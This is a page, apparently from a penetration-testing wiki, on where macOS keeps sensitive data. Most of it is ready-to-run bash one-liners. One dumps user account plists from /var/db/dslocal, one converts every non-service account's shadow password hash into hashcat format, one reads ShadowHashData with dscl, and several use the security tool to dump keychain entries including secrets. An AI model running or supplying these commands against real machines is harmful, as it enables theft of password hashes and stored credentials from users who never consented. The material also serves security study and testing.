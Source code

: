 # macOS Sensitive Locations & Interesting Daemons

{{#include ../../../banners/hacktricks-training.md}}

## Passwords

### Shadow Passwords

Shadow password is stored with the user's configuration in plists located in **`/var/db/dslocal/nodes/Default/users/`**.\
The following oneliner can be use to dump **all the information about the users** (including hash info):

```bash
for l in /var/db/dslocal/nodes/Default/users/*; do if [ -r "$l" ];then echo "$l"; defaults read "$l"; fi; done
```

[**Scripts like this one**](https://gist.github.com/teddziuba/3ff08bdda120d1f7822f3baf52e606c2) or [**this one**](https://github.com/octomagon/davegrohl.git) can be used to transform the hash to **hashcat** **format**.

An alternative one-liner which will dump creds of all non-service accounts in hashcat format `-m 7100` (macOS PBKDF2-SHA512):

```bash
sudo bash -c 'for i in $(find /var/db/dslocal/nodes/Default/users -type f -regex "[^_]*"); do plutil -extract name.0 raw $i | awk "{printf \$0\":\$ml\$\"}"; for j in {iterations,salt,entropy}; do l=$(k=$(plutil -extract ShadowHashData.0 raw $i) && base64 -d <<< $k | plutil -extract SALTED-SHA512-PBKDF2.$j raw -); if [[ $j == iterations ]]; then echo -n $l; else base64 -d <<< $l | xxd -p -c 0 | awk "{printf \"$\"\$0}"; fi; done; echo ""; done'
```

Another way to obtain the `ShadowHashData` of a user is by using `dscl`: `` sudo dscl . -read /Users/`whoami` ShadowHashData ``

### /etc/master.passwd

This file is **only used** when the system id running in **single-user mode** (so not very frequently).

### Keychain Dump

Note that when using the security binary to **dump the passwords decrypted**, several prompts will ask the user to allow this operation.

```bash
#security
security dump-trust-settings [-s] [-d] #List certificates
security list-keychains #List keychain dbs
security list-smartcards #List smartcards
security dump-keychain | grep -A 5 "keychain" | grep -v "version" #List keychains entries
security dump-keychain -d #Dump all the info, included secrets (the user will be asked for his password, even if root)
```
